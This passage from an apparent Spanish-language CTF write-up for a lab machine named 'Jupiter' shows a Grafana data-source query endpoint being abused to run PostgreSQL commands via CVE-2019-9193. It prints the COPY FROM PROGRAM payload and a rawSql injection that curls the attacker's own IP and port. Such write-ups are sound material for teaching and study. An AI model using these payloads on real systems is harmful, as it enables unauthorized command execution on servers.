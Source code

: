 Al revisarlo, se encuentra un servicio de **Grafana**.

![grafana](/jupiter/grafana.png)


Con esta información en mente, se puede intentar revisar las solicitudes dentro de la web para tratar de obtener algún tipo de información. Hay varias solicitudes que se repiten y parecen traer datos relevantes.

![requests](/jupiter/request.png)


Al investigar sobre **/ds/query** aparece lo siguiente:

> [Query a data source](https://grafana.com/docs/grafana/latest/developers/http_api/data_source/#query-a-data-source)                                  
Queries a data source having a backend implementation.
`POST /api/ds/query`
{: .prompt-info}

Por lo que parece, se está realizando una comunicación con el **backend**. Al revisar la petición, se está ejecutando un comando de **POSTGRES**, por lo que se puede intentar investigar algo.

### Nota

Se pueden ejecutar comandos dentro de la base de datos.

![postgrescommand](/jupiter/postgrescommand.png)

## Explotación

Con relación a lo anterior, existe un **CVE** que permite la ejecución de comandos desde la base de datos, s, **[CVE-2019–9193](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/SQL%20Injection/PostgreSQL%20Injection.md#cve-20199193)** , por lo que se puede utilizar el siguiente payload:

```sql
DROP TABLE IF EXISTS cmd_exec;          -- [Optional] Drop the table you want to use if it already exists
CREATE TABLE cmd_exec(cmd_output text); -- Create the table you want to hold the command output
COPY cmd_exec FROM PROGRAM 'id';        -- Run the system command via the COPY FROM PROGRAM function
SELECT * FROM cmd_exec;                 -- [Optional] View the results
DROP TABLE IF EXISTS cmd_exec;          -- [Optional] Remove the table
```
{: .nolineno}

Como ya se sabe que el campo rawSql es vulnerable, se puede intentar añadir el payload ahí para que consuma un servicio propio.

```postgresql
"rawSql":"DROP TABLE IF EXISTS cmd_exec;  CREATE TABLE cmd_exec(cmd_output text); COPY cmd_exec FROM PROGRAM 'curl http://10.10.15.135:8081/hola' " 
```
Y se puede montar un servidor en Python para recibir la petición.
